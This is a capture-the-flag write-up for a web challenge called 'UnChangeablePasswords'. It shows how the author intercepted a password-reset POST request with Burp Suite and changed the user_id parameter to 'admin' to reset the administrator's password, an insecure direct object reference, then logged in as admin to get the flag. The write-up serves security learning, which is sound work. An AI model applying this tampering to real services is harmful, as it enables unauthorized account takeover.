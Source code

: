 # UnChangeablePasswords

## By Om Honrao


<p align="center">
  <img src="Chall.png" alt="Description"/>
</p>

## Hint 1:-
```
The reset password page makes a POST request to some endpoint, maybe you can fiddle with the parameters of the request to change the admin's password?
```

## Hint 2:-
```
Once you have the admin's password won't you be tempted to login as admin and see what's hidden out there?
```

# Walkthrough
Well if we look at this challenge we have a login page. So to start i created a random account. 

<p align="center">
  <img src="webpage.png" alt="Webpage"/>
</p>

I login with the new account and saw there is a Change password option. I went there it took to reset.php. Then I thought we can use IDOR vulnerability because it had two parameters  to post i.e. user_id & pass.

<p align="center">
  <img src="resetpage.png" alt="Webpage"/>
</p>

So to change this i fired up burp suite.

I kept intercept on at reset.php.

I reset my password to 123 and saw requests in burp.

I got response as follows:-
```
POST /web/2/reset.php HTTP/2
Host: web.ctf.devclub.in
Cookie: PHPSESSID=vctnccunelh3oioop971veedp1
Content-Length: 23
Cache-Control: max-age=0
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="101"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://web.ctf.devclub.in
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.41 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://web.ctf.devclub.in/web/2/reset.php
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8

user_id=9090&pass=123
```
Now i simply change the user_id & pass to admin and set admin different pass.

The changes are as follows:-
```
user_id=admin&pass=123
```

I pressed forward and in my chrome it gave a pop up window saying password for admin has been changed.
Now we can simply login as admin.

And boom! we get the flag 

<p align="center">
  <img src="flag.png" alt="Description"/>
</p>
